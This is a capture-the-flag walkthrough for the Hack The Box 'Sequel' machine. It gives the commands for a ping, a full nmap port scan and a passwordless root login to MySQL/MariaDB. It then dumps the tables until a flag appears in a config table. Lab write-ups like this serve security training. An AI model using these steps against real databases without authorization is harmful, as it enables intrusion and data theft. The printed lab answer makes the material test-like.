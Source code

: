 ![Sequel.PNG](/assets/Tier-1/Sequel/sequel.jpg)


1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.96.49
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.96.49
```

3. Now, start **service mysql** and connect to **database** with user **root** to not put the password.
```bash
┌──(root㉿kali)-[/home/kali]
└─| service mysql start
```

```bash
┌──(root㉿kali)-[/home/kali]
└─| mysqlclient -u root -h 10.129.96.49
```
+ `-u`: Indicate user
+ `-h`: Indicate database


4. Then, search in database the **flag**.
```bash
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```
> First, show all databases.

---
```bash
MariaDB [(none)]> USE htb;
```
> Use a **htb** bdd.

---
```bash
MariaDB [htb]> SHOW TABLES;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```
> Show all tables of **htb** database

---

```bash
MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
```
**BOOM** obtain the **flag**


**By: EsT**